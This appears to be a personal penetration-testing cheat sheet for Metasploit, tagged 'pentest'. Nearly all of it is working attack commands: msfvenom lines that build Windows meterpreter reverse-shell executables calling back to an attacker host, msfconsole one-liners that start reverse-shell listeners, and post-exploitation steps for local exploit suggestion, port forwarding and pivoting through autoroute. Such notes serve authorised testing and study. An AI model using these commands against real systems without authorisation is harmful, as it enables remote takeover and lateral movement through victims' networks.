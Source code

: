 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Starting metasploit
```bash - kali
sudo msfdb run
```

#### Windows exe
64:
```bash - kali
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f exe > meterpreter64.exe
```

86:
```bash - kali
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f exe > meterpreter86.exe
```

#### Meterpreter Listener 1 Liner
64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```

#### Non-Meterpreter Listener 1 Liner
64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
#### Local Exploit Suggester
```meterpreter - kali
run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
```

```metereprter - kali
set verbose true
```

```metereprter - kali
set exitonsession false
```

#### Port Forward
```meterperter - kali
portfwd add -l 80 -p 80 -r $TARGET
```

#### Pivoting
```meterperter - kali
background
```

```meterperter - kali
use post/multi/manage/autoroute
```

set subnet to the new found subnet:
```meterperter - kali
set SUBNET x.x.x.x
```

```meterperter - kali
set SESSION 2
```

```meterperter - kali
exploit
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
